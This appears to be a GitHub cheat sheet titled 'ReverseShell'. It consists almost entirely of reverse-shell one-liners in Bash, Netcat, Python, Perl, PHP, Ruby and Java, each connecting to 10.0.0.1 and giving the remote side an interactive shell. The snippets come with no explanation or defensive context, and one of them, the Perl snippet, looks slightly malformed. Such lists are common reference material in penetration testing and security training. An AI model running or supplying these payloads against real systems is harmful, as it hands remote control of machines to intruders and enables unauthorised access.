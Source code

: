 # ReverseShell

## Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234
nc.traditional -e /bin/sh 10.0.0.1 1234
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Python

```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

## Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))
if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
exec("/bin/sh -i");};'
```

## PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
